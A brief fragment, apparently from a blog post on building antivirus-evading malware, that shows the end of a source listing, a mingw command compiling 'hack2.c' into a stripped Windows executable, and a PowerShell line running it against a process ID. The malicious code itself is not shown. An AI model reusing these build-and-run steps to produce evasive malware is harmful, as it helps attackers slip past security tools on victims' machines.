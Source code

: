 ```cpp
  return 0;
}
```

Let’s go to compile our malware:      

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/89/2023-02-22_00-27.png){:class="img-responsive"}      

and run:     

```powershell
.\hack2.exe <PID>
```

![av-evasion](/assets/images/89/2023-02-22_00-33.png){:class="img-responsive"}      
